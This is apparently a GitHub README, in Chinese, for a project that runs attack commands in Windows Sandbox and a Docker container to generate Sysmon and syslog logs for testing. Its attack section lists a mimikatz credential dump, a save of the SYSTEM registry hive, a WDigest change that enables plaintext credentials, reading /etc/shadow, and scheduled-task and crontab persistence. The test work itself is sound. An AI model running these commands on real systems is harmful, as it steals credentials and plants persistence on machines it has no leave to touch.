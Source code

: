 # sandbox_test

只需要下載src和test資料夾即可，project環境為windows 10 22H2 pro，需要開啟windows sandbox功能和docker
(如果要看log，可以下載log.xml和container_syslog.log)

## 執行code
如果想要用pytest測試的話，使用以下架構:
```
-root(root資料夾不限名稱)
    -src
        -SandboxFiles
            mimikatz.exe
            Sysmon64.exe
            sysmonconfig.xml: 
            (sandbox.wsb): 由code自動產生
            (install_and_run.bat): 由code自動產生
            (log.xml): 由code自動產生
        Dockerfile
        sand.py
        (container_syslog.log): 由code自動產生
    -test
        test_sand_unit.py
        test_sand_integrated.py
```
在root資料夾下執行```pytest -vv --cov -p no:warnings```

如果要執行sand.py，把最後兩行註解取消掉再執行

## 攻擊指令

windows
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
copy %USERPROFILE%\Desktop\SandboxFiles\sysmonconfig.xml .

whoami

xcopy %USERPROFILE%\\Desktop\\SandboxFiles . /H /Y

reg save HKLM\SYSTEM C:\\system.save

reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
     
setlocal enabledelayedexpansion

:: Get the current time
for /f "tokens=1-4 delims=:.," %%a in ("%time%") do (
    set /a HH=%%a, MM=%%b, SS=%%c, FF=%%d
)

:: Add 10 seconds
set /a MM+=1
if !MM! geq 60 (
    set /a MM-=60
    set /a HH+=1
    if !HH! geq 24 set /a HH-=24
)

:: Format the time with leading zeros
if !HH! lss 10 set HH=0!HH!
if !MM! lss 10 set MM=0!MM!
echo !HH!:!MM!
:: Create the scheduled task
schtasks /create /tn "MyTask" /tr "notepad.exe" /sc once /st !HH!:!MM! /f
```

linux
```
whoami
echo 'whoami'> tmp
cp tmp tmp2
sh < tmp2
cat /etc/shadow
echo \"echo hash_value > name.out\" | at now + 1 minute
echo \"*/2 * * * * root whoami > username\" >> /etc/crontab
```

## 有關log

log.xml是windows的log

container_syslog.log是linux的log

另外，執行code後，log的位置分別是```root/src/SandboxFiles/log.xml```和```root/src/container_syslog.log```

